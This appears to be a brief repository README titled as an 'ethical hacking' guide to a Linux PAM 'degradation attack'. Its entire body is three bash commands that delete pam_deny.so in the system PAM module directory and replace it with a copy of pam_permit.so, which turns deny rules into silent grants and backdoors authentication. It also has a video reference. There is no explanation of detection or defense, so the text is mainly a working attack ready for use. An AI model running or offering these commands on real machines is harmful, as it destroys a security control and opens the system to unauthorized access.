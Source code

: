 
# Ethical Hacking: Bypass Passwords with Linux PAM Degradation Attack 

```bash
cd /usr/lib/x86_64-linux-gnu/security/
rm pam_deny.so
cp pam_permit.so pam_deny.so
```



### References: 
- https://youtu.be/pxzUdiRPBq4
